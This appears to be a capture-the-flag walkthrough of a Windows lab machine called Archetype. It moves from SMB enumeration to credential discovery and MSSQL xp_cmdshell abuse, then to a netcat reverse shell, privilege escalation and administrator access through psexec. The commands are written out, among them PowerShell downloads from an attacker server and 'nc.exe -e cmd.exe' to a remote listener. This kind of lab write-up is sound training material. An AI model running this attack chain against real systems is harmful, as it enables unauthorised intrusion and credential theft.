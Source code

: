 ![Archetype.jpg](/assets/archetype.jpg)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.129.101.211
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.101.211
```

**Output**
```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```


3. Explore SMB
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient -L 10.129.101.211
```

**Output**
```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.101.211 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
---
Next, connect to **backups**
```bash
┌──(root㉿kali)-[/home/kali]
└─| smbclient \\\\10.129.101.211\\backups
```
---
List files and get

```bash
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020   
  ..                                  D        0  Mon Jan 20 07:20:57 2020   
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020   
                                                                             
                5056511 blocks of size 4096. 2609323 blocks available
```

```bash
smb: \> get prod.dtsConfig
```



4. Show **prod.dtsConfig** file
```bash
┌──(root㉿est)-[/home/kali/Desktop/Archetype]
└─| cat prod.dtsConfig 
```
**Output**
```bash
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```

* We get important information like username **ARCHETYPE\sql_svc** and password **M3g4c0rp123**



5. Connect to mssqlclient with credentials found

```bash
┌──(root㉿est)-[/home/kali]
└─| /usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.101.211 -windows-auth
```

6. Look all options
```bash
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```
---
Next, enable **xp_cmdshell** and **RECONFIGURE** file
```bash
SQL> enable_xp_cmdshell
SQL> RECONFIGURE
```

7. Download two tools **nc.exe** and **winPEAS**
+ **nc.exe**: https://github.com/int0x33/nc.exe/
+ **winPEAS**: https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe


8. Create a server with Python in folder tools.
```bash
┌──(root㉿est)-[/home/kali/Desktop/Archetype]
└─| python3 -m http.server 80 
```

9.  Now go to download this files in directory with command **xp_cmdshell**
```bash
SQL> xp_cmdshell "powershell -c cd C:\Users\Public; wget http://10.10.14.251/nc.exe -outfile nc.exe"
```

```bash
SQL> xp_cmdshell "powershell -c cd C:\Users\Public; wget http://10.10.14.251/winPEASx64.exe -outfile winP.exe"
```

10. Now, with nc.exe in server execute a reverse shell.
    
First, listen in port 444
```bash
┌──(root㉿est)-[/home/kali/Desktop/Archetype]
└─| nc -lvnp 4444
```
---
Next, execute a command into SQL
```bash
SQL> xp_cmdshell "powershell -c cd C:\Users\Public; .\nc.exe -e cmd.exe 10.10.14.251 4444"
```
---
We obtain reverse shell
```bash
connect to [10.10.14.251] from (UNKNOWN) [10.129.101.211] 49678
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Public>
```

11. Execute winPEAS.exe to escalate privileges 

```bash
C:\Users\Public> .\winP.exe
```

**Output**
```bash
             *((,.,/((((((((((((((((((((/,  */                         
      ,/*,..*((((((((((((((((((((((((((((((((((,                       
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*                    
    ((((((((((((((((**********/########## .(* ,(((((((                 
    (((((((((((/********************/####### .(. (((((((               
    ((((((..******************/@@@@@/***/###### ./(((((((              
    ,,....********************@@@@@@@@@@(***,#### .//((((((            
    , ,..********************/@@@@@%@@@@/********##((/ /((((           
    ..((###########*********/%@@@@@@@@@/************,,..((((           
    .(##################(/******/@@@@@/***************.. /((           
    .(#########################(/**********************..*((           
    .(##############################(/*****************.,(((           
    .(###################################(/************..(((           
    .(#######################################(*********..(((           
    .(#######(,.***.,(###################(..***.*******..(((           
    .(#######*(#####((##################((######/(*****..(((           
    .(###################(/***********(##############(...(((           
    .((#####################/*******(################.((((((           
    .(((############################################(..((((            
    ..(((##########################################(..(((((            
    ....((########################################( .(((((             
    ......((####################################( .((((((              
    (((((((((#################################(../((((((               
        (((((((((/##########################(/..((((((                 
              (((((((((/,.  ,*//////*,. ./(((((((((((((((.             
                 (((((((((((((((((((((((((((((/ 
                         ...

����������͹ Analyzing Windows Files Files (limit 70)
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                                          
C:\Users\Default\NTUSER.DAT
C:\Users\sql_svc\NTUSER.DAT
```

12. Search in this paths
```cmd
C:\Users\Public>type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**Output**
```cmd
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```


13. **User flag** is in path `C:\Users\sql_svc\Desktop`
```cmd
C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
```


14. With `/usr/bin/impacket-psexec` open a cmd with credentials found
* **username**: administrator
* **password**: MEGACORP_4dm1n!!
```bash
/usr/bin/impacket-psexec administrator@10.129.101.211
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:

```

**Output**
```cmd
C:\Windows\system32>
```

15. Flag is in path `C:\Users\Administrator\Desktop`
```cmd
C:\Users\Administrator\Desktop> type root.txt
b91ccec3305e98240082d4474b848528
```